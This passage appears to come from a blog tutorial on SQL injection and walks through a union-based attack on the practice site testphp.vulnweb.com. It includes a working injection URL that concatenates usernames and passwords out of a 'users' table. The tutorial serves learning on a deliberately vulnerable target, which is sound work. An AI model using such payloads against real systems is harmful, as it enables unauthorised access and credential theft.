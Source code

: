 ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql13.jpg)
<br>
We now have got all the column names in the 'users' table, 'uname' and 'pass' columns are intresting : )
<br>
### Extracting values from columns
After this point, our aim is certain, and simple. We need to get 'uname' and 'pass' fields in users table.
One simple query to get those values, for example just like this. 
```sql
MariaDB [testdb]> SELECT FirstName from users;
+-----------+
| FirstName |
+-----------+
| Burak     |
| Burak2    |
| Burak3    |
+-----------+
```
So lets imply this to acuart.
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,2,3,4,5,6,concat("Username:",uname, " Password:",pass),8,9,10,11 FROM users>